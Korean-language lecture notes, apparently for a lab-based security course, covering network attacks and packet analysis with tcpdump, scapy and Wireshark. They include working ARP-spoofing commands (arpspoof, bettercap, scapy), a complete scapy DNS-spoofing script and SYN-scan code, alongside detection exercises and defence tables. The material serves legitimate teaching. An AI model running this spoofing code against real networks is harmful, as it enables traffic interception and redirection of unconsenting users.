

# Week 09 — 네트워크 공격 + 패킷 분석 (tcpdump + scapy + Wireshark)

> W04-W07 의 web 공격 학습 이후, W09 는 **네트워크 layer 의 공격** 으로 전환.
> L2 (ARP / MAC) / L3 (IP / ICMP) / L4 (TCP / UDP) 의 packet 을 직접 작성·송신하여
> spoofing / sniffing / hijacking 의 패턴 학습. 본 주차의 도구 : tcpdump (캡처) +
> scapy (작성) + Wireshark (분석). 모든 실습은 6v6 환경 안에서만 — 외부 네트워크
> 공격은 정통망법 위반.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **OSI 7 layer + TCP/IP 4 layer 의 매핑** + 각 layer 의 protocol
2. **TCP 3-way handshake + state machine** (SYN / SYN/ACK / ACK / FIN / RST)
3. **ARP 의 동작 + ARP spoofing 의 원리**
4. **DNS 의 동작 + DNS poisoning 의 패턴**
5. **tcpdump 사용 + BPF filter + 출력 분석**
6. **scapy 로 packet 작성 + 송신 + 캡처** (L2/L3/L4 모두)
7. **Wireshark 의 protocol analyzer + display filter**
8. W09 R/B/P 1 사이클 (Red 네트워크 공격 → Suricata + Wazuh detect → Purple 권장)

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                | 유형 |
|-----------|---------------------------------------------------------------------|------|
| 0:00–0:30 | 이론 — OSI / TCP/IP + protocol stack                                | 강의 |
| 0:30–1:00 | 이론 — TCP state machine + ARP + DNS                                 | 강의 |
| 1:00–1:10 | 휴식                                                                 | —    |
| 1:10–1:40 | 이론 — tcpdump + BPF + Wireshark                                    | 강의 |
| 1:40–2:00 | 이론 — scapy 의 packet 작성 + 송신                                   | 강의 |
| 2:00–2:30 | 실습 1, 2 — tcpdump 캡처 + BPF filter                                | 실습 |
| 2:30–2:40 | 휴식                                                                 | —    |
| 2:40–3:10 | 실습 3, 4 — scapy ping / SYN scan / spoof                           | 실습 |
| 3:10–3:30 | 실습 5 — R/B/P 보고서                                                | 실습 |
| 3:30–3:40 | 정리 + W10 (IDS/WAF 우회) 예고                                       | 정리 |

---

## 1. OSI 7 Layer + TCP/IP 4 Layer

### 1.1 표

| OSI Layer | TCP/IP Layer | Protocol | 본 주차 공격 |
|-----------|--------------|----------|--------------|
| 7 Application | Application | HTTP / DNS / SMTP / FTP / SSH | (W04-W07 다룸) |
| 6 Presentation | Application | TLS / SSL | (TLS — 별도) |
| 5 Session | Application | (NetBIOS / RPC) | — |
| 4 Transport | Transport | **TCP / UDP** | TCP RST injection / SYN flood |
| 3 Network | Internet | **IP / ICMP / ARP** | IP spoof / ICMP redirect / ARP spoof |
| 2 Data Link | Network Access | **Ethernet / MAC** | MAC flood / VLAN hop |
| 1 Physical | Network Access | (cable / radio) | (물리 보안 — course16) |

### 1.2 packet 캡슐화

```
사용자 데이터 (Application)
  ↓
[ HTTP header | 데이터 ]              ← Application Layer
  ↓
[ TCP header | HTTP | data ]          ← Transport Layer
  ↓
[ IP header | TCP | HTTP | data ]     ← Network Layer
  ↓
[ Eth header | IP | TCP | HTTP | data ]  ← Data Link Layer
  ↓
0/1 비트 stream                       ← Physical Layer
```

각 layer 의 header 가 추가 (encapsulation).

---

## 2. TCP 의 state machine

### 2.1 3-way handshake (conn 시작)

```
공격자 (client)              서버
   │                          │
   ├──── SYN ────────────────▶│        ← seq=x
   │                          │
   │◀─── SYN/ACK ─────────────┤        ← seq=y, ack=x+1
   │                          │
   ├──── ACK ────────────────▶│        ← seq=x+1, ack=y+1
   │                          │
   │       (ESTABLISHED)      │
   │                          │
   │── data 양방향 ───────────│
```

### 2.2 4-way termination (conn 종료)

```
   ├──── FIN ────────────────▶│
   │◀─── ACK ─────────────────┤
   │◀─── FIN ─────────────────┤
   ├──── ACK ────────────────▶│
   │       (CLOSED)           │
```

### 2.3 RST (강제 종료)

```
TCP RST = 갑자기 conn 종료. 정상 통신 중 RST 받으면 즉시 conn 종료.
공격: RST injection — attacker 가 victim 의 conn 에 가짜 RST 보내기
     → conn 강제 종료 (DoS)
```

### 2.4 TCP scanner 의 차이

| Scan | flags | 응답 |
|------|-------|------|
| `-sT` Connect | full 3-way | open: 3-way complete, closed: RST/ACK |
| `-sS` SYN | SYN only | open: SYN/ACK + 우리 RST, closed: RST |
| `-sF` FIN | FIN only | open: 응답 없음, closed: RST (Linux/Unix 만 동작) |
| `-sN` Null | flags 없음 | (위와 같음) |
| `-sX` Xmas | FIN/URG/PSH | (위와 같음) |

---

## 3. ARP 의 동작 + ARP spoofing

### 3.1 ARP (Address Resolution Protocol)

```
질문: "IP 10.20.30.1 은 어떤 MAC?"
응답: "10.20.30.1 의 MAC 은 aa:bb:cc:dd:ee:ff"

LAN 안의 broadcast 로 누가 응답함
```

ARP cache table 에 기록 → 후속 통신 빠름.

### 3.2 ARP spoofing (MITM)

```
1. attacker 가 victim 에 가짜 ARP reply 보냄:
   "10.20.30.1 (gateway) 의 MAC 은 attacker_MAC"

2. victim 의 ARP cache: 10.20.30.1 → attacker_MAC

3. victim 의 모든 outbound traffic 이 attacker 로 → attacker 가 sniff + forward

4. 결과 : MITM (Man-in-the-Middle) 위치 점령
```

### 3.3 ARP spoofing 도구

```bash
# arpspoof (dsniff 패키지)
arpspoof -i eth0 -t <victim_IP> -r <gateway_IP>

# bettercap (모던)
bettercap -iface eth0
> set net.spoof.targets victim_IP
> arp.spoof on

# scapy
from scapy.all import ARP, Ether, sendp
arp_packet = Ether()/ARP(op=2, psrc=gateway_IP, pdst=victim_IP, hwsrc=attacker_MAC)
sendp(arp_packet, iface="eth0", loop=1, inter=1)
```

### 3.4 방어

- **ARP table 정적 설정** : 중요 host 의 ARP 를 hard-code
- **DAI** (Dynamic ARP Inspection) : 스위치의 ARP 검증
- **port security** : 스위치 port 별 MAC 제한
- **HTTPS / SSH** : application layer 의 암호화 (MITM 가능해도 데이터 안전)

---

## 4. DNS 의 동작 + DNS poisoning

### 4.1 DNS 의 동작

```
사용자가 https://example.com 입력
  → 브라우저: DNS resolver 에 "example.com 의 IP?" 질문
  → resolver 가 cache 확인 → 없으면 root → TLD → authoritative DNS 조회
  → IP 받으면 cache + 사용자에 전달
```

### 4.2 DNS Poisoning (Cache Poisoning)

```
1. attacker 가 DNS 응답 위조 (전송 timing + transaction ID 추측)
2. resolver 가 위조 응답을 cache
3. 모든 사용자가 attacker IP 로 redirect

cf. 2008 Dan Kaminsky 사고 (DNS 의 fundamental flaw)
방어: DNSSEC + random transaction ID + DNS over HTTPS (DoH) / DNS over TLS (DoT)
```

### 4.3 scapy 로 DNS 응답 위조

```python
from scapy.all import IP, UDP, DNS, DNSRR, sniff, send

def spoof(pkt):
    if pkt.haslayer(DNS) and pkt[DNS].qr == 0:  # query
        # 위조 응답
        spoofed = IP(dst=pkt[IP].src, src=pkt[IP].dst) / \
                  UDP(dport=pkt[UDP].sport, sport=53) / \
                  DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                      an=DNSRR(rrname=pkt[DNS].qd.qname,
                              rdata="attacker_IP"))
        send(spoofed)

sniff(filter="udp port 53", prn=spoof)
```

**6v6 환경**: 자체 DNS 미운영 → 학습용 시뮬만.

---

## 5. tcpdump 상세

### 5.1 역사 + 라이선스

```
1988 LBL (Lawrence Berkeley Lab)
역사상 가장 오래된 패킷 캡처 도구
libpcap (또는 PF_RING / DPDK) 위에서 동작
GPL
```

### 5.2 기본 옵션

```bash
# 인터페이스
-i eth0           # NIC 지정
-i any            # 모든 NIC

# 필터
"tcp port 80"     # BPF filter
"host 10.20.30.1"
"net 10.20.30.0/24"
"proto tcp"
"src 10.20.30.202 and dst port 80"
"not arp"

# 출력
-n                # name resolution 안 함 (빠름)
-nn               # port 도 number 만
-A                # ASCII 출력 (payload)
-X                # hex + ASCII
-v / -vv / -vvv   # verbosity
-c N              # N packet 후 종료
-w cap.pcap       # pcap 저장
-r cap.pcap       # pcap 재생
-s 0              # snaplen 0 = full packet (default 262144)
-tttt             # timestamp 사람 친화 형식
```

### 5.3 BPF (Berkeley Packet Filter) syntax

```
# Primitive
host 10.20.30.1
src host 10.20.30.1
dst host 10.20.30.1
net 10.20.30.0/24
port 80
src port 80
dst port 80
portrange 80-90
proto tcp
proto udp
proto icmp

# Combiner
and / && /
or / || /
not / ! /

# 예
"src host 10.20.30.202 and dst port 80"
"net 10.20.30.0/24 and not port 22"
"tcp[13] & 2 != 0"   # SYN flag set
```

### 5.4 출력 분석

```
12:34:56.789012 IP 10.20.30.202.43210 > 10.20.30.1.80: Flags [S], seq 12345, win 65535, ...
              │           │       │              │       │      │
            timestamp   src IP   src port      dst IP  dst port  TCP flags
```

TCP flag 약자:
- S = SYN
- A = ACK
- F = FIN
- R = RST
- P = PSH
- U = URG
- . = ACK only (sometimes)

### 5.5 pcap 저장 + Wireshark 분석

```bash
# capture
sudo tcpdump -i eth0 -w /tmp/capture.pcap

# Wireshark 로 열기 (GUI)
wireshark /tmp/capture.pcap

# CLI 로 분석
tshark -r /tmp/capture.pcap
tshark -r /tmp/capture.pcap -Y "http.request.method == POST"  # display filter
```

---

## 6. scapy 상세

### 6.1 역사 + 라이선스

```
2003 Philippe Biondi
Python 의 packet 작성·송수신·분석 표준 라이브러리
GPL
```

### 6.2 기본 객체

```python
from scapy.all import *

# IP layer
IP(src="10.20.30.202", dst="10.20.30.1")

# TCP layer
TCP(sport=12345, dport=80, flags="S", seq=1000)

# 결합 (encapsulation — / 연산자)
pkt = IP(dst="10.20.30.1") / TCP(dport=80, flags="S")

# 추가 layer
ICMP(type=8, code=0)
UDP(sport=12345, dport=53)
Ether(src="aa:bb:cc:dd:ee:ff", dst="ff:ff:ff:ff:ff:ff")
ARP(op=1, psrc="10.20.30.202", pdst="10.20.30.1")
DNS(id=12345, qd=DNSQR(qname="example.com"))

# raw data
Raw(load="GET / HTTP/1.1\r\nHost: target\r\n\r\n")
```

### 6.3 송신·수신 함수

```python
# 송신만 (L3)
send(IP(dst="10.20.30.1")/ICMP())

# 송신만 (L2)
sendp(Ether()/IP(dst="10.20.30.1")/ICMP(), iface="eth0")

# 송신 + 응답 1 패킷 수신
r = sr1(IP(dst="10.20.30.1")/TCP(dport=80, flags="S"), timeout=2)
r.summary()
r.show()

# 송신 + 모든 응답 (multi-response)
ans, unans = sr(IP(dst="10.20.30.1")/TCP(dport=[80, 443]))

# 캡처 (sniff)
pkts = sniff(filter="tcp port 80", count=10, timeout=10)
pkts[0].summary()
```

### 6.4 packet 조작 + 분석

```python
# packet 의 layer 분석
pkt.haslayer(TCP)
pkt[TCP].dport
pkt[IP].src

# packet 의 정보 출력
pkt.show()      # 모든 field
pkt.summary()   # 한 줄
hexdump(pkt)    # hex 출력

# packet 의 field 변경
pkt[IP].dst = "1.2.3.4"
del pkt[IP].chksum   # checksum 자동 재계산
```

### 6.5 자주 사용하는 scapy 패턴

#### Ping (ICMP)

```python
send(IP(dst="10.20.30.1")/ICMP())
```

#### SYN scan

```python
ans, unans = sr(IP(dst="10.20.30.1")/TCP(dport=range(1,1025), flags="S"), timeout=5)
for s,r in ans:
    if r[TCP].flags & 0x12:  # SYN/ACK
        print(f"Port {s[TCP].dport} OPEN")
```

#### ARP spoofing

```python
arp = Ether()/ARP(op=2, psrc="10.20.30.1", pdst="10.20.30.202", hwsrc="aa:bb:cc:dd:ee:ff")
sendp(arp, iface="eth0", loop=1, inter=1)
```

#### Custom payload

```python
http_get = IP(dst="10.20.30.1") / TCP(dport=80) / Raw(load="GET / HTTP/1.1\r\nHost: juice.6v6.lab\r\n\r\n")
send(http_get)
```

---

## 7. Wireshark + tshark

### 7.1 Wireshark — GUI 분석

```
역사: 1998 Gerald Combs (Ethereal — 2006 Wireshark 로 rename)
라이선스: GPL
강점: 700+ protocol decoder, 모든 packet 의 모든 field 분석
```

### 7.2 display filter (Wireshark)

tcpdump 의 BPF 와 다른 syntax:

```
# tcpdump:  tcp port 80
# Wireshark: tcp.port == 80

ip.addr == 10.20.30.1
tcp.port == 80
http.request.method == "POST"
http.host == "juice.6v6.lab"
dns.qry.name contains "example.com"
tcp.flags.syn == 1 and tcp.flags.ack == 0   # SYN only
```

### 7.3 Follow TCP Stream

Wireshark 의 Follow → TCP Stream → 한 conn 의 모든 packet 의 payload 를 시계열로
조립 + 표시.

### 7.4 tshark (CLI)

```bash
# 캡처 + 분석
tshark -i eth0 -c 10

# 기존 pcap 분석
tshark -r capture.pcap -Y "http"

# 통계
tshark -r capture.pcap -z io,stat,1   # 1초별 packet 수
tshark -r capture.pcap -z conv,tcp     # TCP conn 통계

# 특정 field 추출
tshark -r capture.pcap -T fields -e ip.src -e ip.dst -e tcp.dport
```

---

## 8. ATT&CK 매핑

| Tactic | Technique |
|--------|-----------|
| TA0008 Lateral Movement | T1021 Remote Services |
| TA0011 Command and Control | T1090 Proxy |
| TA0040 Impact | T1565 Data Manipulation |
| TA0040 Impact | T1499 Network DoS |
| TA0006 Credential Access | T1557 Adversary-in-the-Middle |
| | T1557.001 LLMNR/NBT-NS Poisoning |
| | T1557.002 ARP Cache Poisoning |
| | T1557.003 DHCP Spoofing |

---

## 9. R/B/P 시나리오 — 네트워크 공격 1 사이클



---

## 10. 실습 1~5

### 실습 1 — tcpdump 캡처 + BPF filter

```bash
ssh 6v6-attacker '
echo "=== 기본 tcpdump ==="
sudo timeout 5 tcpdump -ni eth0 -c 10 2>&1 | tail -15

echo ""
echo "=== BPF filter: TCP port 80 만 ==="
sudo timeout 5 tcpdump -ni eth0 "tcp port 80" -c 5 2>&1 | tail -10

echo ""
echo "=== BPF: src 10.20.30.1 + ASCII ==="
sudo timeout 5 tcpdump -ni eth0 -A "src host 10.20.30.1" -c 5 2>&1 | tail -10

echo ""
echo "=== pcap 저장 ==="
sudo tcpdump -ni eth0 -w /tmp/capture.pcap -c 20 2>&1 | tail -3
ls -la /tmp/capture.pcap
'
```

### 실습 2 — scapy SYN scan

```bash
ssh 6v6-attacker '
sudo python3 <<EOF
from scapy.all import IP, TCP, sr, sr1
import sys

target = "10.20.30.1"
ports = [22, 80, 443, 8080, 9100, 3306, 5432]

print(f"=== scapy SYN scan: {target} ===")
ans, unans = sr(IP(dst=target)/TCP(dport=ports, flags="S"), timeout=3, verbose=0)

for s, r in ans:
    flags = r[TCP].flags
    state = "OPEN" if flags & 0x12 == 0x12 else "CLOSED" if flags & 0x14 == 0x14 else "?"
    print(f"  port {s[TCP].dport}: {state}")

if unans:
    print(f"  unanswered: {[p[TCP].dport for p in unans]}")
EOF
'
```

### 실습 3 — scapy ARP / DNS 시뮬

```bash
ssh 6v6-attacker '
sudo python3 <<EOF
from scapy.all import ARP, Ether, sendp, IP, UDP, DNS, DNSRR, send

# ARP 정찰 — local subnet 의 활성 host
print("=== ARP scan (10.20.30.0/24) ===")
from scapy.all import arping
ans, unans = arping("10.20.30.0/24", timeout=2, verbose=0)
for s,r in ans:
    print(f"  {r.psrc}  {r.hwsrc}")

# 가짜 DNS 응답 패킷 작성 (송신 안 함 — 시뮬)
print()
print("=== 가짜 DNS 응답 packet 작성 (send 안 함) ===")
spoof = IP(src="10.20.30.1", dst="10.20.30.202") / \
        UDP(sport=53, dport=12345) / \
        DNS(id=99, qr=1, aa=1,
            qd=None,
            an=DNSRR(rrname="evil.com", rdata="6.6.6.6"))
spoof.show()
EOF
'
```

### 실습 4 — Wireshark 분석 (pcap)

```bash
# tshark 로 pcap 분석
ssh 6v6-attacker '
echo "=== pcap 의 HTTP requests ==="
tshark -r /tmp/capture.pcap -Y "http.request" 2>&1 | head

echo ""
echo "=== 통계: TCP conn ==="
tshark -r /tmp/capture.pcap -z conv,tcp 2>&1 | head -15

echo ""
echo "=== 통계: 초당 packet 수 ==="
tshark -r /tmp/capture.pcap -z io,stat,1 2>&1 | head -15
'
```

### 실습 5 — R/B/P 보고서

```bash
# Red 측 — 본인이 보낸 SYN scan
echo "=== Red 측 (scapy SYN scan 발생) ==="

# Blue 측 — Suricata 의 scan detection
ssh 6v6-ips '
echo "=== Suricata 의 SCAN alerts ==="
sudo tail -500 /var/log/suricata/eve.json | \
    jq "select(.event_type==\"alert\" and (.alert.signature | tostring | test(\"SCAN|nmap|sweep\")))" 2>/dev/null | head -5
'

# Wazuh
ssh 6v6-siem '
echo "=== Wazuh 의 network alert ==="
sudo tail -100 /var/ossec/logs/alerts/alerts.json | \
    jq "select(.rule.groups[]? | tostring | test(\"network|recon\"))" 2>/dev/null | head
'

# fw 측 — conntrack 의 의심 패턴
ssh 6v6-fw '
echo "=== fw conntrack — 활성 conn 수 ==="
sudo conntrack -L 2>/dev/null | wc -l
echo ""
echo "=== fw conntrack — attacker (10.20.30.202) 의 conn ==="
sudo conntrack -L --src 10.20.30.202 2>/dev/null | head -5
'
```

---

## 11. 방어 표준

| 공격 | 방어 |
|------|------|
| ARP spoofing | 정적 ARP / DAI / port security / HTTPS+TLS |
| DNS poisoning | DNSSEC / DoH / DoT / random TXID |
| TCP RST injection | TLS (RST 가 와도 conn 평문 보호) |
| MITM | HTTPS / HSTS / certificate pinning |
| Network sniff | TLS / VPN / VLAN segregation |

---

## 11.5 Windows 호스트 측 패킷 분석 — wireshark 의 두 시각 (W03 secuops 위빙)

본 주차의 tcpdump/scapy/Wireshark 는 Linux 호스트 또는 망(span) 에서 캡처가 표준이다. Windows
사용자 PC 가 들어옴으로써 **호스트 측 캡처** 의 새 source 가 생긴다.

### 두 캡처 시각의 비교

| 시각 | 무엇을 본다 | 분석 측 가치 |
|------|----------|------------|
| 망 측 (fw / ips SPAN) | 모든 호스트 간 트래픽 | 외부↔내부 침해 추적 |
| **Windows 호스트 측 (Sysmon EID 3)** | **어느 프로세스가** 어디로 나갔나 | Red 가 누구인지(프로세스 단위) 추적 |

Wireshark 가 PCAP 의 IP/포트만 본다면, Sysmon EID 3 는 그 connection 의 **출발 프로세스** 까지 본다.
두 시각이 합쳐지면 — "어느 호스트의 어느 프로세스가 어디로 무엇을 보냈나" 의 완전한 답.

### scapy 의 윤리

> scapy 로 임의 패킷을 만들어 보내는 것은 강력한 학습 도구지만, **6v6 인프라 외부 호스트 대상은
> 금지**. 동의 없는 SYN flood / ARP spoofing 은 정보통신망법 / 정보보호법 위반 가능.

---

## 12. 한국 사례 + 표준 매핑

- 2008 Kaminsky DNS attack — DNS poisoning 의 fundamental
- 2024 KISA 의 multiple 네트워크 침해 사례
- ISMS-P 2.6 (네트워크 접근 통제)
- MITRE ATT&CK T1557 (Adversary-in-the-Middle)

---

## 13. 과제

A. **tcpdump 캡처** (필수, 40점) — 1분 트래픽 + BPF filter 3 + 출력 분석
B. **scapy 스크립트** (심화, 30점) — 10 packet 자동 생성 + 응답 분석
C. **ARP / DNS 보안 분석** (정성, 30점) — 본 lab 환경의 보안 평가 + 권장

---

## 14. 핵심 정리 (10 줄)

1. **OSI 7 + TCP/IP 4** layer + protocol 매핑
2. **TCP 3-way handshake** + state machine + RST
3. **ARP spoofing** 의 MITM + 방어 (정적 ARP / DAI)
4. **DNS poisoning** + DNSSEC / DoH / DoT
5. **tcpdump** = libpcap 의 표준 캡처 + BPF filter
6. **scapy** = Python 의 packet 작성 표준 + L2/L3/L4 모두
7. **Wireshark + tshark** = GUI / CLI 분석 + display filter
8. **W09 R/B/P** — Red scapy/tcpdump → Suricata ET SCAN + Wazuh
9. **ATT&CK T1557** — Adversary-in-the-Middle (ARP/DHCP/LLMNR)
10. **W10 (IDS/WAF 우회)** 다음 주차
